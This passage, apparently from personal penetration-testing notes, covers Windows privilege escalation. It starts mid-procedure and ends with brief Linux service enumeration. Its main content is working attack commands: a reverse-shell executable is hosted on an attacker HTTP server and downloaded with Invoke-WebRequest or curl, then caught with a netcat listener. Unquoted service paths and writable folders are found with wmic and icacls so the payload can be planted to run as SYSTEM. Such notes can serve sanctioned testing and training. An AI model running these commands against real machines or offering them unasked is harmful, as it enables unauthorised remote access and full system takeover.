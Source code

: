 python -m http.server 8000 

3. Download the payload to the vulnerable machine using our powershell reverse shell use
format Invoke-WebRequest OR Curl
// Uri "http://192.168.56.49:8000/reverse.exe" -Outfile "reverse.exe"

Invoke-WebRequest http://10.8.0.5:8000/reverse.exe -outfile .\reverse.exe
OR
curl http://10.8.0.x:8000/rev.exe -o .\rev.exe

// NOTE! may have to do this in public directory as its executable

5. Create another netcat listener on our kali machine
 
6. Execute the new reverse shell payload and capture the shell
./reverse.exe
```

### Reveal unquoted service paths
GUIDE: 
https://medium.com/@dasagreeva/windows-privilege-escalation-methods-2e93c954a287

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """ 

// Look for listed unquoted executable paths 

// e.g. Vulnerable Service Vulnerable Service C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe Auto

// If we drop malicious code to one of these paths, windows will run our exe as system upon restart of service

// Check for permissions of folders
icacls “C:\Program Files (x86)\Program Folder”

// If (F = Full Control)  -> We can now place a payload into the folder and start of the service it will run as SYSTEM

Place payloads across windows folders
copy C:\Users\Public\reverse.exe ‘C:\Program Files (x86)\IObit\reverse.exe’

Rename-Item reverse.exe Advanced.exe

// To restart and stop services USE
sc stop ServiceName
sc start ServiceName
```

### Insecure File/Folder Permissions
```
// Check permissions for vulnerable service executable path

icacls “C:\Program Files (x86)\Program Folder\A Subfolder”

// Replace executable.exe with a reverse shell payload and restarting the service
```

### Service enumeration
```
# Search Service contents
systemctl cat service.name.sh```
# List all services
systemctl list-unit-files –type=service
# Restart Service
sudo systemctl restart service_name.service